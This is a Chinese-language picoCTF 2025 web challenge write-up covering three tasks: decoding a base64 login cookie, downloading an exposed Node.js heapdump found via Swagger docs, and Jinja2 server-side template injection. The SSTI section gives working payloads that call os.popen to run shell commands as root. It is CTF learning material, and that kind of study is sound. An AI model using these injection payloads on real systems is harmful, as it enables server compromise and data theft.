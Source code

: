 ### Cookie Monster Secret Recipe

用隨便一組帳密去登入

![cookie](/assets/picoCTF2025/Web/CookieMonsterSecretRecipe/image.png)

拿去 decode base64

![flag](/assets/picoCTF2025/Web/CookieMonsterSecretRecipe/image-1.png)

### head-dump

index 中有一則關於 nodejs

![nodejs](/assets/picoCTF2025/Web/head-dump/image.png)

source code 裡面可以看到`#API Documentation`可以連結到`/api-docs`

![api docs](/assets/picoCTF2025/Web/head-dump/image-1.png)

![swagger](/assets/picoCTF2025/Web/head-dump/image-2.png)

在 swagger 中發現 `Diagnosing /heapdump`

![heapdump](/assets/picoCTF2025/Web/head-dump/image-4.png)

按下 Download file

在檔案中找到 flag

![flag](/assets/picoCTF2025/Web/head-dump/image-5.png)

### SSTI1

這一題是 server side template injection  
之前沒有遇過這種題型，先上網搜尋了一下  
參考資料：[[Day11] SSTI (Server Side Template Injection)](https://ithelp.ithome.com.tw/articles/10272749)

```
{{ cycler.__init__.__globals__.os.popen('id').read() }}
```

得到結果

```
uid=0(root) gid=0(root) groups=0(root)
```

Jinja2 SSTI 漏洞允許存取 Python 的 os 模組並執行系統命令

```
{{ cycler.__init__.__globals__.os.popen('ls -la').read() }}
```

可以看到有`flag`
